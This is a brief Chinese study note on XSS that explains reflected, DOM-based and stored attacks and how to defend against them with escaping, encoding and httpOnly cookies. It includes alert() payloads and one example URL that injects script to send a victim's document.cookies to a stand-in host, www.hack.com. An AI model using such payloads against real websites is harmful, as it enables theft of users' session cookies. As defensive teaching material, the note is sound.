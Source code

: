 ## XSS(Cross-Site Scripting)跨站脚本攻击 ##
+ 有人向网页注入恶意脚本代码
+ 用户访问了包含恶意代码的网页
+ 恶意脚本让黑客可以获取和控制用户信息
+ 防范是对用户输入做严格过滤

### 1.反射型(非持久型)XSS ###
+ 反射型， `/home?type=<script>alert(1)</script>`
+ {httpOnly: true}) 前端不能操作cookie,并不能解决XSS，但是可以降低受损的范围
+ 如果一个网站把用户输入的部分直接显示(留言板，查询)，那么黑客可以根据这个做XSS，黑客可以用这个网址`www.正规URL.com?query=<script>img.src=www.hack.com?query=document.cookies<script>`，诱导用户自己点开，因为前面是正规的具有XSS漏洞的网址，用户很容易上当，一旦点击自己的cookies就被拿走了
+ 查询参数 预防方法，使用encodeURIComponent对输入url encode

### 2.DOM-BASE XSS ###
+ 不基于后端，基于DOM(文档对象模型),修改属性,插入内容,立足于DOM,可以是反射型也可以是存储型
+ 在改变结构后,会造成攻击,特别是使用innerhtml的时候,DOM解析HTML，造成攻击
+ 攻击的内容称为xss payload
+ 在用户输入的地方作为img的src,在这里输入 `""><script>alert(2)<\/script>"`就是一次DOM-BASE的XSS
+ 网页url/ajax返回的数据是用户可控的并且在输出时没有做过滤,就可以写payloads
+ 对用户输入使用encodeURI或者手动转义,或者使用DOM API代替InnerHtml

### 3.存储型 XSS ###
+ 存储型XSS,恶意脚本存在服务器上,所有人都被影响了
+ 最常发生在由社区内容驱动的网站或Web邮件网站,不需要特制的链接来执行,一般发生在博客评论,用户评论,留言板,聊天室,HTML电子邮件
+ 客户端上传的时候，先校验过滤一下,服务器在过滤一下,在使用上传的内容时，也就是输出的时候过滤
+ 过滤是将用户输入的字符转义，将`& " < > '`转成 `&amp; &quot; &lt; &gt; &apos;`

#### 防御总结 ####
1. 首先需要注意的是应该对所有用户提交的内容执行严格的输入验证,对URL,HTML,Javascript进行转义
2. 保护被自动执行或来自第三方网站执行的所有敏感功能，使用令牌，验证码或者HTTP引用头检查
3. 尽量不接受用户输入的HTML,如果非要,要禁止script标签，禁止调用远程内容(img,script,style)